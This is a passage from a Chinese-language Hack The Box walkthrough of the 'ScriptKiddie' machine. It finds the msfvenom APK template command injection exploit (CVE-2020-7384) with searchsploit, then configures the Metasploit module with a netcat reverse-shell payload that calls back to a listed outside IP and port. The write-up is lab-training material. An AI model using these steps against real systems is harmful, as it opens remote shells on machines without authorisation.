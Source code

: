 
# web

5000端口是一个执行各种命令的页面，尝试各种命令注入无果

我们留意到期中一个命令执行是生成一个msfvenom的payload，其中需要上传一个文件

linux上传.elf文件
windows上传.exe文件
安卓上传.apk文件


感觉入口应该是在这里

kali搜索msfvenom相关的漏洞

```
┌──(root💀kali)-[~/htb/ScriptKiddie]
└─# searchsploit msfvenom                                                                                     130 ⨯
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection             | multiple/local/49491.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

找到一个python版本的exp，但是我本地因为py的各种依赖问题不能成功执行，根据漏洞编号去到msf寻找这个漏洞的exp
```
msf6 exploit(multi/http/werkzeug_debug_rce) > search 2020-7384

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection 
```

载入，生成一个apk文件
```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  207.246.124.194  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```